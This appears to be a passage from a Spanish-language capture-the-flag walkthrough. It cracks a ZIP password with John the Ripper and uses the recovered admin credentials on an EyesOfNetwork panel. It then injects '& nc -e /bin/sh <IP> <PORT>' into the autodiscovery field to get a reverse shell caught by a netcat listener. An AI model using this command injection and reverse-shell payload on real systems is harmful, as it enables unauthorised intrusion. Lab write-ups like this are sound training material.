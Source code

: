 ```shell
zip2john file.zip > hash
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
killah           (output.zip/creds.txt)     
1g 0:00:00:00 DONE (2024-06-18 10:32) 33.33g/s 546133p/s 546133c/s 546133C/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que la contraseña es `killah` por lo que ahora si lo descomprimiremos...

```shell
unzip file.zip
```

Metemos esa contraseña y obtendremos un archivo llamado `creds.txt` que contendra lo siguiente...

```
admin
isitreal31__
```

Si esas credenciales las ingresamos en la pagina del `login` que encontramos nos meteremos como `admin` en la pagina...

URL = https://packetstormsecurity.com/files/160888/EyesOfNetwork-5.3-Remote-Code-Execution-Privilege-Escalation.html

Dentro del mismo nos iremos a la siguiente `URL`...

```
URL = https://<IP>/lilac/autodiscovery.php
```

Y donde pone `Target Specification` pondremos lo siguiente...

```
& nc -e /bin/sh <IP> <PORT>
```

Le damos a `Add Target`...

Y por utlimo donde pone `Job Name` ponemos lo que sea por ejemplo `test`...

Una vez hecho todo esto, nos pondremos a la escucha...

```shell
nc -lvnp <PORT>
```
